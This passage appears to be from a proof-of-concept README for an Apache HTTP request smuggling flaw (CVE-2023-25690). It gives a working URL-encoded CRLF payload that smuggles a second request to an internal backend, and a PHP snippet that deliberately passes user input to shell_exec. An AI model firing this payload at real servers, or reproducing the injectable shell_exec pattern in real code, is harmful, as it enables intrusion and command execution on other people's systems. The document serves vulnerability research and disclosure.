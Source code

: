 Following the request, the server will process the data and return a 200 response code indicating vulnebility to CRLF Injection.

```bash
HTTP/1.1 200 OK
Date: Mon, 22 May 2023 02:05:28 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Length: 21
Content-Type: text/html; charset=UTF-8

You category ID is: 1
```

More information regarding HTTTP Request Splitting can be found here, [https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

### Internal HTTP Request Smuggling via Header Injection

Using the header injection we will perform the internal HTTP Request Smuggling.<br>
Lets begin with the following prefix:

```bash
 HTTP/1.1\r\nHost: localhost\r\n\r\nGET /SMUGGLED
%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED
```

and the following request

```bash
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```

Applying the rewrite rule, the request undergoes a transformation into the following format:

```bash
GET /categories.php?id=1 HTTP/1.1
Host: localhost

GET /SMUGGLED HTTP/1.1
Host: backend
```

where the encoded URL is decoded into valid HTTP syntax causing the backend to treat the decoded data as second request.
![](https://github.com/dhmosfunk/CVE-2023-25690-POC/blob/main/assets/smuggled.png?raw=true)
<br>
Suppose that our internal application has the following secret code:

```php
#Internal secret functionality
if(isset($_GET['secret'])){
    $secret = $_GET['secret'];

    shell_exec('nslookup ' . $secret);
}
```
